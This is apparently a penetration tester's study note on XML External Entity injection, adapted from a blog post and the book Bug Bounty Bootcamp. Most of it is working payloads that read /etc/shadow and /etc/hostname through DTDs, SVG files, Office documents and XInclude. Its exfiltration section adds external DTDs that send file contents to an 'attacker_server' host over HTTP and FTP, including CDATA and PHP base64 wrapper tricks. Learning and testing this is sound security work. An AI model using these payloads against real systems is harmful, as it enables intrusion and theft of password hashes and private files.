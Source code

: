# XML External Entities injection
Tags: #xxe #injection #api
Related to:
See also:
Previous:

## Links
Topic: XXE identification and exploit
Author: h3xstream
Link: https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html

Topic: Bug Bounty Bootcamp
Author: Vickie Li
Description: A lot of the payload material is taken from there.

## Notes
### Detection
- Anything that looks XML based should be investigated (GPS in @h3xstream post)
- Change `application/json` to `application/xml` in API requests.

```
Content-Type: text/xml
Content-Type: application/xml
```

#### FIle Upload
 > If you can upload one of these file types, you might be able to smuggle XML input to the application’s XML parser. XML can be written into document and image formats like XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, and RSS feeds. Furthermore, metadata embedded within images like GIF, PNG, and JPEG files are all based on XML.
 
 ### Payloads
 "Classic"
 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```

#### Blind
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

#### SVG
Save as a .svg file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```
#### Office files
You can unzip the following, identiy .xml files, and add payloads
* docx
* pptx
* xlsx
Then, zip again

#### Xinclude
Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.

In this situation, you might be able to execute an XInclude attack instead. _XInclude_ is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

This piece of XML code does two things. First, it references the _http://www.w3.org/2001/XInclude_ namespace so that we can use the `xi:include` element. Next, it uses that element to parse and include the _/etc/hostname_ file in the XML document.

### Exfiltration
#### Blind
More complicated because of rules in most XML parsers

> An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

*xxe.dtd*
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

Notice that I included the contents of _/etc/shadow_ in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:
```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

#### Bypassing restrictions on special chars
Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (`<>`), quotes (`"` or `'`), and the ampersand (`&`). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within `CDATA` (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">
2 <!ENTITY % start "<![CDATA[">
3 <!ENTITY % end "]]>">
4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings `"<![CDATA["` and `"]]>"`2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a `CDATA` tag 4. The concatenated `exfiltrate` entity declaration will become the following:

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint ([https://xmllint.com/](https://xmllint.com/)) to ensure that your XML syntax is valid.

Finally, send your usual XML payload to the target to execute the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

Another way of exfiltrating files with special characters is to use a PHP URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at [https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb):

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```

We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server